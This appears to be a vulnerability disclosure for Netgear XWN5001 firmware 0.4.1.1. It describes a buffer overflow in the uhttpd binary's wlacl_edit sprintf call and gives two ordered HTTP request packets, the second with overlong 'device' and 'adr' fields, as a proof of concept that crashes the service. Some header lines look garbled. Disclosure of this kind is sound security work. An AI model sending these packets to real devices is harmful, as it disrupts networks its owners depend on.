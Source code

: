 # xwn5001-0.4.1.1
## Firmware version
xwn5001-0.4.1.1

The firmware can be downloaded at https://www.netgear.com/support/product/xwn5001/.
## description
The Netgear xwn5001-0.4.1.1 uhttpd binary has a buffer overflow vulnerability. When a specific network packet is sent to the uhttpd binary, the sprintf operation crashes. This vulnerability can be exploited by a local or remote unauthenticated attacker.
## detail
The vulnerability is located in the function at address 0x43988C of the binary usr/sbin/uhttpd. 

Firstly, parameter select_edit is passed to wl_acl_editnum through nvram_set in function wlacl_edit.

wlacl_editnum:

![wlacl_editnum](wlacl_editnum.png)

Secondly, The parameter device and adr passed to sprintf in function wlacl_edit which is source of the issue.

wlacl_edit:
![wlacl_edit](wlacl_edit.png)



## Send package
Pakcges should be sent in order.
# package1
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 595

select_edit=123&submit_flag=wlacl_editnum
```

# package2
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 650

device=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&adr=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&plc_qos_port_select=10&hide2_policy=wzqwzqwzq&submit_flag=wlacl_edit
```
